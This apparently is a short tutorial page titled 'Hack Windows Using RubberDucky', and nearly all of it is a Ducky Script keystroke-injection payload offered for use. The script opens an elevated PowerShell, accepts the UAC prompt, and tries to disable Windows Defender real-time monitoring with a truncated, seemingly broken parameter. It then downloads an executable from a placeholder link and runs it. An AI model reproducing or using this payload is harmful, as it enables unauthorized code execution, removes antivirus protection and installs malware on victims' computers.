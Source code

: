 # Hack Windows Using RubberDucky – Keystroke Injection

### Ducky Script Command Reference

``` GUI r
DELAY 200
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 2000
ALT y
DELAY 900
STRING Set-MpPreference -DisableRea $true; 
$d = New-Object System.Net.WebClient; 
$f = '1.exe'; 
$d.DownloadFile('YOUR PAYLOAD DOWNLOAD LINK',$f); 
$e = New-Object -com shell.application; $e.shellexecute($f); 
exit; ```
